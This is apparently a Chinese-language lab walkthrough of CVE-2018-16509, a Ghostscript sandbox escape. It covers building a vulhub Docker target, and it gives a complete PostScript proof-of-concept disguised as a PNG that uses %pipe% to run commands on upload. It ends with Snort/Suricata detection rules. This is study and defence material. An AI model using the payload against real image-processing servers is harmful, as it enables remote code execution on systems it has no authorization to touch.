


# 0x0 前言
### CVE-2018-16509 Description  
An issue was discovered in Artifex **Ghostscript before 9.24**. Incorrect **"restoration of privilege" checking** during handling of **/invalidaccess exceptions** could be used by attackers able to supply crafted PostScript to execute code using the **"pipe"** instruction.

### Ghostscript
**PostScript**是由Adobe開發的一種page description language(PDL)，用於解釋圖像顯示。  
而**Ghostscript**是PostScript的直譯器，而Ghostscript被廣泛運用在各種平台與應用程式，如：**ImageMagick**, Python PIL等等。

### 原理簡介
Ghostscript有一optional的參數`-dSAFER`，可令Ghostscript執行於安全沙盒模式，禁止檔案相關的操作，其中有一**LockSafetyParams**的變數負責一部分的功能。  
而PostScript有一try...except...語法如下程式碼所示，**restore**為一用於操作Virtual memory的指令，其相關函式會暫時將**LockSafetyParams**改為False以給予相關操作權限，而Postscript為一postfix運算的語言，因此null為restore的參數，但null是不合法的操作，造成在**LockSafetyParams**尚未改回True的情況下，引發type error而進入exception後將null pop掉，從而繼續執行。
```
{ 
	null restore 
} stopped {
	pop
} if
```
爾後利用寫入檔案的參數**OutputFile**的%pipe%指令傳入惡意指令來達成RCE。


> 1. 此RCE的情境為受害伺服器提供圖像處理的功能，如上傳圖片，並利用ImageMagick或PIL處理完圖像並回傳結果，期間觸發了Ghostscript的漏洞
> 2. 雖是從web打入，但拿到的是Ghostscript的root權限

* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令


# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 任何具瀏覽器之攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)


# 0x2 受攻擊機環境建置
1. `sudo apt install curl`，安裝curl

2. `curl -s https://get.docker.com/ | sh`，下載最新版本docker

3. `service docker start`，啟動docker

4. `sudo apt install docker-compose`，安裝docker-compose

5. `git clone https://github.com/vulhub/vulhub.git`

6. `cd vulhub/ghostscript/CVE-2018-16509/`

7. `sudo docker-compose up -d`，建立container在**http://<受攻擊機IP>:8080**


# 0x3 攻擊機環境建置
1. 建立一附檔名為(poc).png的檔案，檔案內容如下

        %!PS
        userdict /setpagedevice undef
        save
        legal
        { null restore } stopped { pop } if
        { legal } stopped { pop } if
        restore
        mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops

### Exploit
2. 開啟瀏覽器，於網址列輸入輸入`http://<受攻擊機IP>:8080/`  


3. 按下`Browse...`，選擇剛剛創建的poc.png檔，並按下`Submit Query`上傳圖片，可以看到回傳id資訊，exploit成功  


### Validation
4. 回到受攻擊機，確認terminal所在目錄為**vulhub/ghostscript/CVE-2018-16509/**，執行`sudo docker-compose exec web bash`進入container  


5. `ls /tmp/`，可以看到確實多出了poc.png中的/tmp/success這個檔案，`cat /tmp/success`可以看到內容也是id的資訊  


# 0x4 後記
由index.php得知此處是使用ImageMagick的identify指令觸發Ghostscript的漏洞，而也可以使用其他有使用到Ghostscript的application，如[Reference 2]是使用PIL  


# 0x5 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET any -> $SMTP_SERVERS 25 (msg:"FILE-OTHER Ghostscript -dSAFER sandbox bypass attempt"; flow:to_server,established; file_data; content:"/OutputFile"; nocase; content:"%pipe%"; within:10; nocase; metadata:policy max-detect-ips drop, service smtp; reference:cve,2018-16509; classtype:attempted-admin; sid:51945; rev:1;)

2. alert tcp $EXTERNAL_NET $FILE_DATA_PORTS -> $HOME_NET any (msg:"FILE-OTHER Ghostscript -dSAFER sandbox bypass attempt"; flow:to_client,established; file_data; content:"/OutputFile"; fast_pattern; nocase; content:"%pipe%"; within:10; nocase; metadata:policy max-detect-ips drop, service ftp-data, service http, service imap, service pop3; reference:cve,2018-16509; classtype:attempted-admin; sid:47882; rev:1;)


# 0x6 Reference
* [1] https://jontsang.github.io/post/40555.html
* [2] https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509
* [3] https://bugs.chromium.org/p/project-zero/issues/detail?id=1640
* [4] https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2018-16509


